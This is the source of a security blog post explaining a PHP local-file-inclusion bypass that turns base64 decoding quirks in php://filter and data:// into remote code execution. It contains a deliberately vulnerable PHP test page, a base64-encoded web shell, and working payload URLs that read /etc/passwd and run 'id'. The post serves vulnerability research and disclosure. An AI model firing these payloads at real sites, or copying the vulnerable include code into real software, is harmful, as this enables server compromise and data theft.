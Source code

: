```yaml
---
id: 299
title: 'One LFI bypass to rule them all (using base64)'
date: '2023-07-20T06:51:37+00:00'
author: matan.honig2@gmail.com
guid: 'https://matan-h.com/?p=299'
permalink: /one-lfi-bypass-to-rule-them-all-using-base64/
image: /assets/images/PHP-filter-etc-passwd-example-com.png
excerpt: 'bypass most PHP filters using only base64'
categories:
    - cyber
tags:
    - base64
    - cyber
    - php
    - php-filter
---
```


## Backstory:

On one of the \[real world\] PHP websites, I found an [LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion) \[there was a URL parameter that checked if the value ends with ‘txt’. If so, it would just display it\]. So, I reported to the site owner that I have a RCE using PHP filters (using `php://filter/convert.quoted-printable-encode/resource=data:text/plain`,`phpcode`, because HTTP was already blocked) to the owner, and he decided to just block PHP start (<?php) and end (?&gt;) tags. So now, how can I bypass this block (no file upload on this server)?

The solution according to the book is to simply use [PHP filter chain](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters). But… I don’t really like this way of exploitation – it makes the exploit very long, and it’s completely unreadable. So let’s imagine the site URL has a length filter, or it blocks the pipe char. There must be another way to do this, right?

Basically, what PHP filter chain does is to collect characters for a Base64 string ([using PHP filter group](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d) called `convert.iconv`) then base64 decode it. Maybe I could just supply the base64 and then decode it, without collecting the base64 string?

For that, I need a base64 string that’s ending with ".txt". When I asked the Cyber king of misleading information, it gave me this:

![chatgpt answer: "just append .txt to the base64 encoded string"](/assets/images/chatgpt-asked-about-b64-endswith.png)

<figcaption class="caption-center">ChatGPT, when asked about creating a base64 that ends with ".txt"</figcaption>

At first glance, this seems completely unhelpful. You can’t just add ".txt" and hope it stays base64. But a little research revealed that PHP works differently.

## Update: Create test site

Let’s create our vulnerable PHP test website: (credit for the [template](https://github.com/computer-engineer/WhiteboxPentest/blob/main/Vulnerable%20Code%20Examples/php/lfi.php) to **[WhiteboxPentest](https://github.com/computer-engineer/WhiteboxPentest)** on GitHub).

[truff](https://hackerone.com/truff) from [Projet7](https://www.projet7.org/) did some research, and he found that my exploit works only with `include` or `require` and not with ``file_get_contents``. Additionally, it requires the website to be configured with `allow_url_include:On`.


```php
<body style="background-color:#82e2ff">
    <form method="GET">
        <label>Select Timezone</label>
        <select name="file">
            <option value="america.txt">America/New_York</option>
            <option value="asia.txt">Asia/Singapore</option>
        </select>
        <input type="submit" value="Display time"/>
    </form>

    <?php
    if(isset($_GET['file'])) {
        $file = $_GET['file'];

        // Check if the file starts with "http"
        if (strpos($file, "http") === 0) {
            echo "Files starting with 'http' are not allowed.";
        } else {
            if (strpos($file, "<?php") !== false || strpos($file, "?>") !== false || strpos($file, "|") !== false) {
                echo "blocked";
                echo (strpos($file, "|") !== false) ? " (php tag)" : " (pipe character)";
            } else {
                if (substr($file, -3) === "txt") {
                    include($file);
                } else {
                    echo "the file " . htmlentities($file) . " is not a txt file";
                }
            }

            echo "<br><br>the base64 decode was:<br>";
            echo htmlentities(base64_decode(explode(",", $file)[1]));
            echo "";
        }
    }
    ?>
</body>

```

You need also to [find php.ini](https://tecadmin.net/where-is-php-ini/), and change `allow_url_include` from `Off` to `On`. Now you are ready for research: You can start the server and start to explore PHP’s base64 decode filter

```bash
php -S 0.0.0.0:2000
```

Now go to <http://0.0.0.0:2000/vulnerable.php?file=php://filter/convert.base64-decode/resource=data://plain/text,SGVsbG8sIFdvcmxkLg>. (that should just output "the file … is not a txt file")

- - - - - -

Now, you can pause reading this article and try to run code yourself.

- - - - - -

### Details

PHP has a unique way of handling base64 using the `convert.base64-decode` filter. It just ignores non-base64 characters. That means that if I try to decode this base64 string:"<red>bWF0YW4ta</red><green>&&</green><red>C5j</red><green>#</green><red>b20K</red><green>….?</green><red>PHP=</red>"

the PHP will just ignore all non-base64 characters, and decode it like it was: "<red>bWF0YW4taC5jb20KPHP=</red>" (decoded to be "matan-h.com<s").

If I took a more useful example from [hacktricks](https://book.hacktricks.xyz/welcome/readme) : let’s try "<red>PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=</red>" (which means "<?php system($\_GET\[‘cmd’\]);echo ‘Shell done !’; ?&gt;") and let’s try to make this end with ".txt" and still get a valid base64 without the dot. Turns out this is very easy : all I needed to do was to remove the padding (the `=` sign at the end) and replace it with ".txt" (you could also use other extensions such as .php, etc. as long as they can be in base64). To make the base64 more human-readable, let’s add a plus before the extension. It does not do much in the way of PHP decode base64, but if we try to decode the extension with `base64` in bash (without the "."), it will be happy. So we get the first RCE payload:

<green>?cmd=cat%20/etc/passwd&file=<darkgreen>PHP://filter/convert.base64-decode/resource=data://plain/text,<red>PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4</red><blue>+.txt</blue></darkgreen></green>

![](/assets/images/PHP-filter-etc-passwd-example-com.png)
<figcaption class="caption-center">Screenshot of the start of /etc/passwd of that site using PHP://base64-decode filter</figcaption>
I reported this to the owner, and he decided to just block `php://` protocol (all cases).

But the LFI was also open to the data:// protocol. In normal cases, data:// is used for plain text like this: `data://text/plain,<?php phpinfo();?>`, but data:// can also be used to decode base64. Using `data://text/plain;base64`. But this time, `data:` does not ignore non-base64 characters. Are we sure we really need them?

Apparently, the server only implements the check if the file ends with "<blue>txt</blue>"(without dot). Not with "<red>.</red><blue>txt</blue>" (with dot). That means, I could just take the previous payload, remove the "." and throw this into the `data` protocol and get the second RCE payload (for some reason, I could decode this only using PHP. Python or bash \[using GNU base64\] required me to add an equal sign after the "txt" to complete the padding.):
<green>?cmd=id&file=<darkgreen>data://text/plain;base64,<red>PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4<blue>+txt</blue></red></darkgreen></green>

![](/assets/images/data-payload-id-example-com.png)
<figcaption class="caption-center">Screenshot of the output of the command "id" of that site using the `data://` protocol</figcaption>
I didn’t find this trick on Google. So I posted it here. I hope that this post informed you


Disclaimer: This article is intended for educational and informational purposes only and should not be used for any illegal or malicious activities.
